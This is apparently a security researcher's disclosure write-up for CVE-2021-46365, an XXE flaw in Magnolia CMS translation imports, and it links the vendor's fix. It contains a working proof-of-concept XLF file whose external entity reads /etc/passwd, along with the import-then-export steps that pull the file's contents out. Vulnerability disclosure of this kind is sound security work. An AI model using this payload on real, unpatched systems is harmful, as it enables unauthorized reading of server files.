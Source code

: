 # CVE-2021-46365: XML External Entity in Content Translation in Magnolia CMS

In Magnolia (versions <=6.2.3) when importing ".XLF" files in the "Content Translation" module, if the XLF contains malicious XML "DOCTYPE" entities, these can be used to:
- Read arbitrary files by using the "file:" protocol and the "Export" function
- Perform Server-Side Request Forgery (SSRF) attacks

### Vendor Disclosure:

The vendor's disclosure and fix for this vulnerability can be found [here](https://docs.magnolia-cms.com/product-docs/6.2/Releases/Release-notes-for-Magnolia-CMS-6.2.4.html#_security_advisory).

### Requirements:

This vulnerability requires:
<br/>
- Valid user credentials

### Proof Of Concept:

The following XLF file was used to import the content of the “/etc/passwd” file into the translation:
```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE note [<!ENTITY sp SYSTEM "file:///etc/passwd"> ]>
<xliff xmlns="urn:oasis:names:tc:xliff:document:1.2" version="1.2">
    <file datatype="html" original="magnolia.export" source-language="en" target-language="de">
        <header/>
        <body>
            <trans-unit extradata="2015.10.27 11:41:44 110" id="05872876-073e-40a3-a3c5-0d0a18c1d43d:title" resname="Page properties: Page title">
                <source xml:lang="en">&sp;</source>
                <target xml:lang="de"/>
                <note>http://travel-demo.magnolia-cms.com/tour-type.html</note>
            </trans-unit>
            <trans-unit extradata="2015.10.27 11:41:44 110" id="05872876-073e-40a3-a3c5-0d0a18c1d43d:navigationTitle" resname="Page properties: Navigation title">
                <source xml:lang="en">Tours</source>
                <target xml:lang="de"/>
                <note>http://travel-demo.magnolia-cms.com/tour-type.html</note>
            </trans-unit>
        </body>
    </file>
</xliff>
```

<strong>Note:</strong> The XLF/XML file can be found [here](Payloads/exploit.xlf) for easy download.
<br/>

We import the above XLF into a translation and then we can immediately export the respective translation in order to obtain the contents of "/etc/passwd".
<br/>

Import:
<img src="Images/import_xlf.png"/>

Export (any format can be used for the export, but in this case, CSV is used):
<img src="Images/export_csv.png"/>

Resulting CSV containing "/etc/passwd":
<img src="Images/xxe.png"/>
